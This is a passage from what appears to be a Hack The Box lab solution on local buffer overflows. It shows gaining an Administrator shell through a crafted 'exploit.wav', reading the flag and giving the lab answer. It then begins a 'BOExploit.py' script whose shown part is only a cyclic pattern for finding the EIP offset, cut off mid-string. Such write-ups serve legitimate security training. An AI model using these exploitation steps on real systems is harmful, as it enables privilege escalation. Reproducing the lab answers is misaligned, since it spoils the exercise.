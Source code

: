 Once "exploit.wav" is opened, students will receive a `CMD` shell run as Administrator. Thus, they now need to navigate to the Desktop directory of the Administrator user and print the flag contents (or use the `type` command directly by specifying its absolute path):

Code: powershell

```powershell
cd C:\Users\Administrator\Desktop
type flag.txt
```

```
C:\Users\htb-student\Desktop>cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type flag.txt

HTB{l0c4l_0v3rfl0w_m4573r}
```

![[HTB Solutions/Others/z. images/64c72c2794c6054deff929bdd6870c14_MD5.jpg]]

Answer: `HTB{l0c4l_0v3rfl0w_m4573r}`

At last, the final and complete "BOExploit.py" script is:

Code: python

```python
def eipOffset():
    payload = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"
                    "9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8"
                    "Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A"
                    "i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al"
                    "7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6"
                    "Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5A"
                    "r6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au"
                    "5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4"
                    "Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3B"
                    "a4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd"
                    "3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2"
                    "Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1B"
                    "j2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm"
                    "1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0"
                    "Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9B"
                    "s0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu"
                    "9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8"
                    "Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7C"
                    "a8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd"
```